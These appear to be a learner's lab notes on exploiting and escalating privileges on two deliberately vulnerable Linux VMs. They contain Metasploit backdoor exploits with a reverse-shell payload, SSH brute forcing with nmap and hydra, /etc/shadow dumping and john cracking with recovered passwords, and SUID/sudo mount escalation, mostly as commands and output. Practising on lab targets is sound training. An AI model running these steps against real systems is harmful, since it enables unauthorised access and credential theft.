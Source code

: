 2025-05-28 23:42

Status:

Tags:

# Linux Exploitation & PrivEscalation

# 25/05/25
## Exploitation

### Exploiting Meta2
- using vsftpd 2.3.4

```bash
search vsftpd 2.3.4
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.10.10.6
run
```
- using nmap
	- nmap script brute force ssh  
```bash
nmap 10.10.10.6 -p 22 —-script ssh-brute 
```
- creaked password 
```bash
# Example 
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     user:user - Valid credentials
```
### Exploiting csec (Marlinspike)
```bash
search ProFTPD 1.3.3c
use exploit/unix/ftp/proftpd_133c_backdoor
set RHOSTS  10.10.10.16
set  payload payload/cmd/unix/reverse
set LHOST 10.10.10.4
run  
```
- using nmap
	- nmap script brute force ssh  
```bash
nmap 10.10.10.6 -p 22 —-script ssh-brute 
```
- creaked password 
```bash
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-brute: 
|   Accounts: 
|     administrator:secret - Valid credentials
ssh administrator@10.10.10.16 
```

## Privilege Escalation Methods 
- Methods for privilege escalation are 
	1.  Kernel Vuln
	2. Software Vuln
	3. World Writable Files
	4. Cron
	5. SUID
	6. SUDO
[[Privilege Escalation Methods]] - detailed information 

- Login meta2  using creaked password 
```bash
 ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedAlgorithms=+ssh-rsa user@10.10.10.6
```

### Privilege Escalation for csec (marlinspike)
for detailed : [[UID]]   
Step 1 : check for  UID 
- Example :
	- `` $ id ``
	- ``uid=1001(administrator) gid=1001(administrator) groups=1001(administrator)``

## Types of Privilege Escalation 
1. vertical ( down to up / user to root )
2. Horizon (side to side / user to another user )
Detailed - [[Types of Privilege Escalation]]


Step 2 : check for other user under (we are doing horizontal escalation )
1.  `` cat /etc/passwd`` (users about)
	- ``marlinspike:x:1000:1000:marlinspike,,,:/home/marlinspike:/bin/bash
2. `` cat /etc/shadow `` (encrypted passwords)
- 
Step 3 : get access as marlinspike user 
- using hydra password cracking
```bash
hydra -l marlinspike -P /usr/share/wordlists/john.lst 10.10.10.16  ssh -e nsr  -t 4 
 # -e nsr  
# This option tells Hydra to try additional password checks:
# - `n` = try "null" password (empty password)
# - `s` = try "login as password" (username as password)
# - `r` = try "reverse login" (password as username)

```
- output  
```bash
 [22][ssh] host: 10.10.10.16   login: marlinspike   password: marlinspike
```
---- 
- using /etc/shadow file and carking password 
```bash
 john pas.txt 
```
- output 
```bash
marlinspike      (marlinspike)     
secret           (administrator)    
```

Step 4 :Vertical Escalation, login as marlinspike 
- using SUID 
	- checking SUID binary that are available in system 
```bash
find / -perm -u=s 2>/dev/null 
```
- output 
```bash
 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/xorg/Xorg.wrap
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/sbin/pppd
/bin/ping6
/bin/fusermount
/bin/umount
/bin/su
/bin/ping
/bin/mount
/bin/ntfs-3g
```
- this SUID binary can be as root 
- we can run this SUID binary for getting root user access
- Example :
	- `` ls -l /bin/umount ``
	- ``-rwsr-xr-x 1 root root 27608 Jun 14  2017 /bin/umount ``
- check how you can use this SUID binary in  - GTFOBins
- To check which command a user can run we use 
	- `` sudo -l ``
- 
### meta 2 
SUID - nmap 


### csec 
- using mount
```bash
 sudo mount -o bind /bin/sh /bin/mount
 sudo mount
# will get root access 
```

---- 
- creaking hash for shadow files ( meta2)
```bash
cat /etc/shadow 
```
- using john
```bash
john met2.txt --show 
```
- ouput
```
sys:batman:14742:0:99999:7:::
klog:123456789:14742:0:99999:7:::
msfadmin:msfadmin:14684:0:99999:7:::
postgres:postgres:14685:0:99999:7:::
user:user:14699:0:99999:7:::
service:service:14715:0:99999:7:::
```
 
 
 - [ ] start  2:00:00



### References
